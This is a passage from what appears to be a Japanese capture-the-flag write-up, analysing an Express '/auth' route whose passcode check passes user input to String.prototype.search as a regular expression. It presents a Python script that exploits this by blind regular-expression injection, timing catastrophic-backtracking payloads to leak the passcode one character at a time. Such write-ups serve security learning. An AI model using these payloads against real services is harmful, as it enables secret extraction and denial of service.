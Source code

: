 という 5 つのパスがあるようです。ただし、`/put` と `/tunnel` は `typeof session.isAdmin == "boolean" && session.isAdmin` が `true` でないとアクセスすることができません。

### `/auth` のパスコードを取得する

`session.isAdmin` が操作されているのは `/auth` のみですから、まずはこれを詳しく調べていきましょう。

```javascript
	app.get('/auth', function(req, res){
		var session = req.session;

		var passcode = req.query.passcode;
		var secret = fs.readFileSync('passcode.txt','utf8').trim();
		if (typeof passcode  == "string" && !secret.search(passcode) && secret === passcode){
			var session = req.session;
			session.isAdmin = true;
				
			res.statusCode = 302;
			res.setHeader('Location', './tunnel');
			res.end();
		} else {
			res.end("Plz Enter Correct Passcode");
		}
	});
```

`passcode.txt` の内容を当てることができれば `session.isAdmin = true;` してくれるようですが、ソースコードを読む限り Path Traversal のような脆弱性は見当たらず、簡単に `passcode.txt` を読むことはできなさそうです。

パスコードのチェック部分では `!secret.search(passcode) && secret === passcode` と二重にチェックがされています。どちらかひとつではダメなのでしょうか。

[`String.prototype.search`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/search) のドキュメントを読んでみると、この引数は (たとえ `String` だったとしても `RegExp` に変換されて) 正規表現として扱われることがわかりました。

このような状況で思い出されるのは [Blind Regular Expression Injection Attack](https://diary.shift-js.info/blind-regular-expression-injection/) です。

記事中のペイロードを参考にしながら、printable な文字を 1 文字ずつ試してレスポンスにかかった時間を出力してくれるスクリプトを書いてみましょう。

```python
import requests
import string
import time
import urllib.parse

BASE = 'http://(省略)/auth?passcode='

res = "de"
template = '^(?=(.*{}))((.*)*)*salt$'

for c in '.' + string.printable:
  t = time.time()
  requests.get(BASE + urllib.parse.quote(template.format(c + res)))
  if time.time() - t > 0.7:
    print(time.time() - t, c)

print('done')
```
